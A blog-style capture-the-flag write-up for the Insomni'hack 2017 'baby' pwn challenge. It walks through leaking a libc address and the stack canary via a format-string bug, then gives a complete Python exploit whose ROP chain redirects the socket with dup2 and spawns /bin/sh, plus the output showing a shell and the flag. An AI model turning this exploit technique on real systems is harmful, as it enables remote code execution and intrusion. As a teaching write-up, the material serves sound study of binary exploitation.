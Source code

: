 ```yaml
---
layout: post
title: Insomni'hack teaser 2017 - pwn50
post_author: r00ta
excerpt_separator: <!--more-->
---
```


As usual we execute `file` command on the binary

```bash
$ file baby 
baby: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, not stripped
```

and with `checksec` we get... WHAT? 

```bash
./checksec --file baby 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   Yes	0		10	baby
```

<!--more-->

pretty nice for a baby pwnable :D But fortunately the binary is very easy (and the organizers provided us the libc): a server spawns a child process who does this 

```bash 
Welcome to baby's first pwn.
Pick your favorite vuln : 
   1. Stack overflow
   2. Format string
   3. Heap Overflow
   4. Exit
Your choice > 
```

so we have a lot of possibilities here. The idea is to leak some address and information through the format string bug and then perform a simple buffer overflow. 

In order to write a ropchain we have to find an address of the libc and then calculate the libc's offset starting from this. Looking at the stack through FSB we find 
that at offset 158 there is the address of '<__libc_start_main+240>'. We can also leak the canary on the stack: it is at offset 144.

This part of the exploit is 

```python 
import sys, socket, telnetlib
from struct import *
import random
import time
import binascii
import time
def recvuntil(t):
    p = ''
    while not p.endswith(t):
        tmp = s.recv(1)
        if not tmp: break
        p += tmp

    return p

def interactive():
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()

def p32(x): return pack('<I', x)
def u32(x): return unpack('<I', x)[0]
def p64(x): return pack('<Q', x)
def u64(x): return unpack('<Q', x)[0]

def recvMenu():
    recvuntil("Your choice > ")
    return

def leakAddrAtStack(offset,bytesToRead):
    print "LEAKING ADDR at stack offset " + str(offset)
    s.send("2\n")
    recvuntil("Your format > ")
    s.send("%" + str(offset) + "$lx\n")
    address = s.recv(bytesToRead)
    recvuntil("Your format > ")
    s.send("\n")
    return(int("0x" + address,16))

def doBufferOverflow(payload):
    print "PWNING"
    s.send("1\n")
    recvuntil("How much bytes you want to send ? ")
    s.send(str(len(payload)) + "\n")
    s.send(payload)
    print "INTERACTIVE"
    interactive()


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], int(sys.argv[2])))

recvMenu()
libcstartmain_Address = leakAddrAtStack(158,12) - 0x20830   #offset 0x20830 from init
print hex(libcstartmain_Address)
recvMenu()
canary = leakAddrAtStack(144,16)
print hex(canary)
```

The first part of the ropchain is the redirection of the I/O using dup2 function

```python
p = ''

p += p64(0x0000000000021102+ libcstartmain_Address)        # pop rdi; ret
p += p64(0x4)                                              # sockfd
p += p64(0x00000000000202e8+ libcstartmain_Address)        # pop rsi; ret
p += p64(0x0)                                                                                
p += p64(0x00000000000F6D90+ libcstartmain_Address)        # dup2

p += p64(0x0000000000021102+ libcstartmain_Address)        # pop rdi; ret
p += p64(0x4)                                              # sockfd
p += p64(0x00000000000202e8+ libcstartmain_Address)        # pop rsi; ret
p += p64(0x1) 	
p += p64(0x00000000000F6D90+ libcstartmain_Address)        # dup2

p += p64(0x0000000000021102+ libcstartmain_Address)        # pop rdi; ret
p += p64(0x4)                                              # sockfd
p += p64(0x00000000000202e8 + libcstartmain_Address)       # pop rsi; ret
p += p64(0x3)
p += p64(0x00000000000F6D90+ libcstartmain_Address)		   # dup2
```

and finally the ropchain for '/bin/sh'

```python

p += pack('<Q', 0x0000000000001b92+ libcstartmain_Address) # pop rdx ; ret
p += pack('<Q', 0x00000000003c3080+ libcstartmain_Address) # @ .data
p += pack('<Q', 0x0000000000033544+ libcstartmain_Address) # pop rax ; ret
p += '/bin//sh'
p += pack('<Q', 0x000000000002e19c+ libcstartmain_Address) # mov qword ptr [rdx], rax ; ret
p += pack('<Q', 0x0000000000001b92+ libcstartmain_Address) # pop rdx ; ret
p += pack('<Q', 0x00000000003c3088+ libcstartmain_Address) # @ .data + 8
p += pack('<Q', 0x000000000008ad15+ libcstartmain_Address) # xor rax, rax ; ret
p += pack('<Q', 0x000000000002e19c+ libcstartmain_Address) # mov qword ptr [rdx], rax ; ret
p += pack('<Q', 0x0000000000021102+ libcstartmain_Address) # pop rdi ; ret
p += pack('<Q', 0x00000000003c3080+ libcstartmain_Address) # @ .data
p += pack('<Q', 0x00000000000202e8+ libcstartmain_Address) # pop rsi ; ret
p += pack('<Q', 0x00000000003c3088+ libcstartmain_Address) # @ .data + 8
p += pack('<Q', 0x0000000000001b92+ libcstartmain_Address) # pop rdx ; ret
p += pack('<Q', 0x00000000003c3088+ libcstartmain_Address) # @ .data + 8
p += pack('<Q', 0x000000000008ad15+ libcstartmain_Address) # xor rax, rax ; ret
p += pack('<Q', 0x00000000000ab390+ libcstartmain_Address)*59 # add rax, 1 ; ret
p += pack('<Q', 0x00000000000bb7c5+ libcstartmain_Address) # syscall ; ret
doBufferOverflow("A"*(1032) + p64(canary)+ p64(0xdeadbeef) + p + "\n")
```

PWN'EM!!

```bash
$ python exploit.py baby.teaser.insomnihack.ch 1337
LEAKING ADDR at stack offset 158
0x7f129d29e000
LEAKING ADDR at stack offset 144
0x7971cd723454900
PWNING
INTERACTIVE
Good luck !

id
uid=1001(baby) gid=1001(baby) groups=1001(baby)
ls
baby
flag
cat flag
INS{if_you_haven't_solve_it_with_the_heap_overflow_you're_a_baby!}
```

The full exploit and the executables are available [here]({{ site.github_tree }}/tree/master/files/insomniHack2017/)! 
